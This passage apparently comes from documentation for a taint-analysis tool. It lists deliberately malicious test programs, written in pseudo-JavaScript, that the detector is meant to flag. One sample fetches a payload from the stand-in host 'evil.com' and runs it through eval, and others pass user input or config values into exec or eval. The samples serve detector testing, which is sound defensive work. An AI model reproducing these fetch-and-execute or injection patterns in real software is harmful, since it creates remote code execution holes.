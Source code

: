 ```ml
}
```

#### 2.4 Data Flow Evasion
**File: `malicious_programs/data_flow_evasion.ml`**
```ml
// Complex taint propagation paths
function processNetworkData() {
    let url = "http://evil.com/payload";
    let response = fetch(url);
    let data = response.text();

    // Multi-step taint propagation
    let processed = data.trim();
    let cleaned = processed.replace(/[^a-zA-Z0-9]/g, "");
    let encoded = btoa(cleaned);
    let decoded = atob(encoded);

    // Should detect this taint flow
    return eval(decoded);
}

function indirectTaintPropagation(userInput) {
    let container = {
        data: userInput,
        metadata: {
            source: "user",
            processed: false
        }
    };

    // Taint through object property access
    let extracted = container.data;
    let transformed = extracted.toUpperCase();

    // Should detect this as tainted
    return exec(transformed);
}

// File-based taint propagation
function processConfigFile(filename) {
    let content = readFile(filename);
    let config = JSON.parse(content);

    // Taint through configuration
    if (config.enableDynamic) {
        let command = config.dynamicCommand;
        return eval(command);
    }

    return config;
}

// Callback-based taint propagation
function processAsyncData(callback) {
    fetchUserData((userData) => {
        let processed = userData.command;

        // Taint through callback parameter
        callback(processed);
    });
}

```
